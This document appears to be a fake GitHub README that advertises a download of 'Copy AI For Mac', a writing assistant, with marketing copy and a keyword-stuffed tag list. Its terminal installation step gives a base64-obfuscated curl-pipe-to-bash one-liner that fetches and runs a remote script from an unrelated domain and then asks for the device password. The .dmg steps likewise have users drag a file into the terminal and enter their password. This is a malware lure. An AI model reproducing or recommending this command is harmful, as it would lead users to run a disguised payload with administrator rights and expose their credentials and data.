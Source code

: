 # Copy AI For Mac — Download For Mac OS ✍️

![copyai](https://akwaam.com/wp-content/uploads/2025/04/Copy-AI-App-Essay-Advices.webp)

Copy AI For Mac is an innovative AI-powered writing assistant designed to help Mac users create high-quality content effortlessly. From blog posts to marketing copy, this software streamlines content creation with advanced AI tools. Follow the instructions below to install and start generating professional-grade content on your Mac.


[![Download Now](https://img.shields.io/badge/Download%20Now-Copy%20AI%20For%20Mac-blue?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/copyai)

If the download button above doesn’t work, follow the manual installation instructions below using the terminal.

## 📦 How to Install Copy AI For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- ✍️ **AI-Powered Writing**: Generate engaging content for blogs, ads, and social media with advanced AI algorithms.
- 📋 **Template Library**: Access a wide range of customizable templates for various content types.
- 🌐 **Multilingual Support**: Create content in multiple languages to reach global audiences.
- 🤝 **Collaboration Tools**: Work seamlessly with team members in real-time for efficient content creation.
- ⚙️ **macOS Optimization**: Enjoy smooth performance tailored for Apple Silicon and macOS environments.
- 📈 **Tone Customization**: Adjust the tone of your content to match your brand’s voice and style.

## About Copy AI

Copy AI For Mac is a cutting-edge writing assistant that empowers Mac users to create professional content with ease. Leveraging advanced AI, this software helps marketers, bloggers, and businesses generate high-quality text for blogs, advertisements, social media posts, and more. With its intuitive interface and powerful features, Copy AI is a must-have tool for anyone looking to streamline their content creation process on macOS.

The software uses machine learning to produce human-like text, ensuring your content is engaging and polished. Its extensive template library covers a wide range of use cases, from email campaigns to product descriptions, making it versatile for professionals across industries. Copy AI’s seamless integration with macOS ensures fast performance, while its collaboration features allow teams to work together efficiently, boosting productivity.

For those seeking to enhance their content marketing efforts, Copy AI offers multilingual support and tone customization, enabling users to craft content that resonates with diverse audiences. Whether you’re drafting a single post or managing large-scale campaigns, the software’s AI-driven tools simplify the process, saving time and effort. Its compatibility with the latest macOS versions ensures a smooth experience on any Mac device.

By combining user-friendly design with powerful AI capabilities, Copy AI For Mac has become a trusted solution for content creators. Its ability to generate high-quality, brand-aligned content makes it an essential tool for modern professionals. Download Copy AI today and elevate your content creation with this industry-leading software optimized for macOS.

## Advantages of Copy AI

- ✍️ **High-Quality Content**: Produce engaging, professional text with AI-driven precision.
- ⚡ **Fast Generation**: Create content quickly, even for large projects, with optimized performance.
- 🛠️ **Intuitive Interface**: User-friendly design makes content creation accessible to all skill levels.
- 📋 **Versatile Templates**: Access a diverse library of templates for blogs, ads, and more.
- 🌐 **Global Reach**: Generate content in multiple languages for international audiences.
- 🤝 **Team Collaboration**: Real-time collaboration tools streamline team workflows.

## 🖼 Preview

![Copy AI Dashboard](https://www.elegantthemes.com/blog/wp-content/uploads/2023/06/Copy-AI-templates.jpg)  
*The sleek Copy AI dashboard, designed for intuitive content creation.*


## 🔍 Tags

copy ai, ai copy copy artificial intelligence, copys ai, cppy ai, cop y ai, copy ai+, ai copywriting, copywriting ai, copy ai for mac, copy ai mac, copy ai mac download, copy ai free, copy ai download, download copy ai, copy ai for mac, copy ai discount, copy ai for macos, copy ai mac free, copy ai mac free download, copy ai free download
